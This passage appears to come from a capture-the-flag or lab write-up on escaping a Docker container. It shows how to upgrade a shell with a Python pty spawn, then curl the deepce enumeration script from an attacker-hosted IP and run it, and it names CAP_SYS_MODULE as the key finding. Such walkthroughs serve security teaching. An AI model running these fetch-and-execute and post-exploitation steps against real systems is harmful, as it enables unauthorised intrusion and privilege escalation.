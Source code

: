 Also important to improve and stabilize the shell first:

```bash
export TERM=xterm
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

### Transfer and run deepce

```bash
curl http://10.4.122.220:8000/deepce.sh -o deepce.sh
chmod +x deepce.sh
./deepce.sh
```

---

From running, the most vital piece of information was the `CAP_SYS_MODULE` under the **Dangerous Capabilities** section:

![Deepce run](./images/deepce-run.png)  
![Deepce dangerous caps](./images/deepce-dangerous-caps.png)

---

### Why this matters
